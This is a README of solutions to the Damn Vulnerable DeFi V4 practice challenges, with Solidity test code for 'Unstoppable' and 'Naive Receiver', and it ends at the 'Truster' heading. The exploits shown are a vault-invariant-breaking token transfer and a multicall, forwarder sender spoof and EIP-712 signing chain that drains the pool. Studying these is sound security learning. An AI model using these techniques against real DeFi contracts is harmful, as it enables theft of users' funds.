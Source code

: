 # Damn Vulnerable DeFi

This is solutions of [Damn Vulnerable DeFi V4](https://www.damnvulnerabledefi.xyz)

### 1. Unstoppable

This topic is about vault flashloan. The idea comes from flashloan function that doing check in total supply and total assets. Let's see following the code below :

<details>

<summary> code </summary>

```javascript
function flashLoan(IERC3156FlashBorrower receiver, address _token, uint256 amount, bytes calldata data)
        external
        returns (bool)
    {
        if (amount == 0) revert InvalidAmount(0); // fail early
        if (address(asset) != _token) revert UnsupportedCurrency(); // enforce ERC3156 requirement
        uint256 balanceBefore = totalAssets();
@>        if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); // enforce ERC4626 requirement

        // transfer tokens out + execute callback on receiver
        ERC20(_token).safeTransfer(address(receiver), amount);

        // callback must return magic value, otherwise assume it failed
        uint256 fee = flashFee(_token, amount);
        if (
            receiver.onFlashLoan(msg.sender, address(asset), amount, fee, data)
                != keccak256("IERC3156FlashBorrower.onFlashLoan")
        ) {
            revert CallbackFailed();
        }

        // pull amount + fee from receiver, then pay the fee to the recipient
        ERC20(_token).safeTransferFrom(address(receiver), address(this), amount + fee);
        ERC20(_token).safeTransfer(feeRecipient, fee);

        return true;
    }

```

</details>
<br>

There is a difference between `totalSupply` and `totalAssets`. The `totalSupply` refers to the total amount of tokens that the `vault` has minted. Then, the `totalAssets` refers to all amount token DVT that the `vault` holds. So, if someone makes a transfer to `vault` with token DVT, The `totalAssets` will increase, creating a mismatch between `totalSupply` and `totalAssets`.

<details>

<summary> Solution </summary>

```javascript
    function test_unstoppable() public checkSolvedByPlayer {
        require(token.transfer(address(vault), INITIAL_PLAYER_TOKEN_BALANCE));
    }
```

</details>

### 2. Naive Receiver

On this topic, we work with flashloan, delegatecall and EIP-712 as well. In this case, the aims of the chalengge is moving all funds into recovery address and spending player funds. If we are not working with delegatecall, it is difficult to imagine how we would have difficult with it. Also, EIP-712 has it's own difficulty. In short, i have a scenario that :
- make 10 flashloans to spend player funds
- make one transaction to move all of funds to the recovery address
- keep all commands with the encode function with ABI
- At my difficulty, changing the format to EIP-712 is the hardest part

<details>

<summary> Solution </summary>

```javascript
function test_naiveReceiver() public checkSolvedByPlayer {
        bytes[] memory callDatas = new bytes[](11);
        for(uint8 i; i<10; i++){
            callDatas[i] = abi.encodeCall(pool.flashLoan, (receiver, address(weth), 0, ""));
        }
        callDatas[10] = abi.encodePacked(abi.encodeCall(pool.withdraw, (WETH_IN_POOL + WETH_IN_RECEIVER, payable(recovery))), bytes32(uint256(uint160(deployer))));        
        bytes memory message = abi.encodeCall(pool.multicall, callDatas);
        BasicForwarder.Request memory request = BasicForwarder.Request({
            from: player,
            target: address(pool),
            value: 0,
            gas: 30000000,
            nonce: forwarder.nonces(player),
            data: message,
            deadline: 1 days
        });

       bytes32 messageHash = keccak256(abi.encodePacked(
        "\x19\x01", 
        forwarder.domainSeparator(),
        forwarder.getDataHash(request)
       ));

       (uint8 v, bytes32 r, bytes32 s) = vm.sign(playerPk, messageHash);
        bytes memory signature = abi.encodePacked(r, s, v);

        forwarder.execute(request, signature);
    }

```

</details>

### 3. Truster